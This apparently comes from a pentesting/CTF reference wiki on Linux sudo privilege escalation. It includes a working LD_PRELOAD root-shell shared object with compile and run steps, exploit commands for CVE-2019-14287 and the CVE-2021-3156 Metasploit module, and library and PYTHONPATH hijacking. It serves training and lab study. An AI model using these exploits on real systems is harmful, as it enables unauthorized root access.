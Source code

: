 # sudo privilege escalation

*An excellent reference to exploit sudo: [SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER) <small>(2.1k ⭐)</small>. List sudoers with `getent group sudo`.*

[![linprivesc](../../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![commonlinuxprivesc](../../../../_badges/thmp/commonlinuxprivesc.svg)](https://tryhackme.com/room/commonlinuxprivesc)
[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![picklerick](../../../../_badges/thm-p/picklerick.svg)](https://tryhackme.com/room/picklerick)
[![linprivesc](../../../../_badges/thm-p/linprivesc.svg)](https://tryhackme.com/room/linprivesc#task-12)
[![wgelctf](../../../../_badges/thm-p/wgelctf.svg)](https://tryhackme.com/room/wgelctf)
[![easyctf](../../../../_badges/thm-p/easyctf.svg)](https://tryhackme.com/room/easyctf)
[![colddboxeasy](../../../../_badges/thm-p/colddboxeasy.svg)](https://tryhackme.com/room/colddboxeasy)
[![allinonemj](../../../../_badges/thm-p/allinonemj.svg)](https://tryhackme.com/room/allinonemj)
[![chillhack](../../../../_badges/thm-p/chillhack.svg)](https://tryhackme.com/room/chillhack)
[![tomghost](../../../../_badges/thm-p/tomghost.svg)](https://tryhackme.com/room/tomghost)
[![ccpentesting](../../../../_badges/thm-p/ccpentesting.svg)](https://tryhackme.com/room/ccpentesting)
[![bruteit](../../../../_badges/thm-p/bruteit.svg)](https://tryhackme.com/r/room/bruteit)
[![unbakedpie](../../../../_badges/thm-p/unbakedpie.svg)](https://tryhackme.com/r/room/unbakedpie)
[![sudo_weak_configuration](../../../../_badges/rootme/app_script/sudo_weak_configuration.svg)](https://www.root-me.org/en/Challenges/App-Script/sudo-weak-configuration)
[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)
[![shared_objects_hijacking](../../../../_badges/rootme/app_script/shared_objects_hijacking.svg)](https://www.root-me.org/en/Challenges/App-Script/Shared-Objects-hijacking)
![nibbles](../../../../_badges/htb-p/nibbles.svg)
![getsimplecms](../../../../_badges/htb-p/getsimplecms.svg)
[![devvortex](../../../../_badges/htb-p/devvortex.svg)](https://app.hackthebox.com/machines/Devvortex)
[![cozyhosting](../../../../_badges/htb-p/cozyhosting.svg)](https://app.hackthebox.com/machines/CozyHosting)
[![knife](../../../../_badges/htb-p/knife.svg)](https://app.hackthebox.com/machines/Knife)
[![broker](../../../../_badges/htb-p/broker.svg)](https://app.hackthebox.com/machines/Broker)
[![busqueda](../../../../_badges/htb-p/busqueda.svg)](https://app.hackthebox.com/machines/Busqueda)
[![shocker](../../../../_badges/htb-p/shocker.svg)](https://app.hackthebox.com/machines/Shocker)
[![blocky](../../../../_badges/htb-p/blocky.svg)](https://app.hackthebox.com/machines/Blocky)
[![mirai](../../../../_badges/htb-p/mirai.svg)](https://app.hackthebox.com/machines/Mirai)

<div class="row row-cols-lg-2"><div>

If you have [administrative privileges](/operating-systems/linux/_knowledge/index.md#sudo), you can list them with:

```ps
$ sudo -nl # without a password
$ sudo -l # with a password
```

The first section is about settings and environment variables that may be exploited such as [LD_PRELOAD](#ld_preload).

```text!
Matching Defaults entries for [...]:
    [...] # something here
```

The second section is about your [sudoers](/operating-systems/linux/env/files/index.md#etcsudoers) rights. Such commands may be exploited to get root, search the command on [GTOBins #sudo](../tools/gtfobins.md).

```text!
User [...] may run the following commands on [...]:
    (root) /bin/tar
```

➡️ For instance, the user below can run `/bin/tar` as `root`.
</div><div>

📚 Sometimes, instead of root, we may be able to run commands as another user, such as `/opt/script.sh` as user `xxx`. Use `sudo -u xxx`.

🍀 Sometimes, patterns are used in commands/paths. In a path, it means we can use `../`. In a command, we can use any option.

```text!
User [...] may run the following commands on [...]:
    (root) NOPASSWD: /usr/bin/vim
    (ALL) NOPASSWD: /usr/bin/vim
    (xxx) NOPASSWD: /opt/*.sh
    (root) /usr/bin/ssh *
    (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

☠️ If you can only execute the script and not read it, either try to see if the script use an [injectable](../utils/injection.md) parameter or try to find if the source code is available somewhere else <small>(ex: on Git)</small>.

⚠️ A configuration may contains both `env_keep` and `env_reset`.
</div></div>

<hr class="sep-both">

## LD_PRELOAD

[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![linprivesc](../../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![unbakedpie](../../../../_badges/thm-p/unbakedpie.svg)](https://tryhackme.com/r/room/unbakedpie)

<div class="row row-cols-lg-2"><div>

If there is `env_keep += LD_PRELOAD` in the permissions displayed by `sudo -l` OR if there is no `env_reset`, then it means that we can set `LD_PRELOAD` and run code before executing the command.

The code below replace the gid/uid of the user running the command with `0` <small>(root)</small>. Then, it pops a bash shell <small>(as root!)</small>.

```c
//#include <stdio.h>
//#include <sys/types.h>
//#include <stdlib.h>
void _init() {
    //unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
</div><div>

Compile it with

```shell!
$ cd /tmp
$ gcc -shared -fPIC init.c -o init.so
$ gcc -shared -fPIC init.c -o init.so -nostartfiles
```

Then, call the command that you could run as administrator <small>(`tar` here)</small>, while setting the variable path to your script:

```shell!
$ sudo LD_PRELOAD=/tmp/init.so tar
```

💎 Congratulations, you are `root` now!
</div></div>

<hr class="sep-both">

## Well-known Vulnerabilities

<div class="row row-cols-lg-2"><div>

#### sudo before 1.8.28 (CVE-2019-14287)

[![agentsudoctf](../../../../_badges/thm-p/agentsudoctf.svg)](https://tryhackme.com/room/agentsudoctf)

If a user was allowed to run one specific command using sudo, such as `tar`, then it was possible for any other user to impersonate the authorized user, and run the command as root too.

```ps
$ sudo -u#-1 tar [...]
$ sudo -u#4294967295 tar [...]
```

💎 Congratulations, you are `root` now!
</div><div>

#### sudo before 1.9.5p2 (CVE-2021-3156)

[![metasploitframework](../../../../_badges/htb/metasploitframework.svg)](https://academy.hackthebox.com/course/preview/using-the-metasploit-framework)
[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)

See metasploit module: `exploit/linux/local/sudo_baron_samedit`.

```shell!
msf6> use exploit/linux/local/sudo_baron_samedit
msf6> set SESSION 1
msf6> set LHOST tun0
msf6> run
```
</div></div>

<hr class="sep-both">

## Additional Notes

<div class="row row-cols-lg-2"><div>

#### LD_LIBRARY_PATH

[![shared_objects_hijacking](../../../../_badges/rootme/app_script/shared_objects_hijacking.svg)](https://www.root-me.org/en/Challenges/App-Script/Shared-Objects-hijacking)

While uncommon, if the sudo configuration include `env_keep+=LD_LIBRARY_PATH`, we are able to set a custom folder for `.so`. Refer to [Shared Object Hijacking](../utils/injection.md#library-hijacking).

```shell!
$ sudo LD_LIBRARY_PATH=/path/to/xx/ [...]
```
</div><div>

#### PYTHONPATH

[![unbakedpie](../../../../_badges/thm-p/unbakedpie.svg)](https://tryhackme.com/r/room/unbakedpie)

While uncommon, if the sudo configuration include `env_keep+=PYTHONPATH`, we are able to set a custom folder for python modules. Refer to [Shared Object Hijacking](../utils/injection.md#library-hijacking).

```shell!
$ sudo PYTHONPATH=/path/to/xx/ [...]
```
</div></div>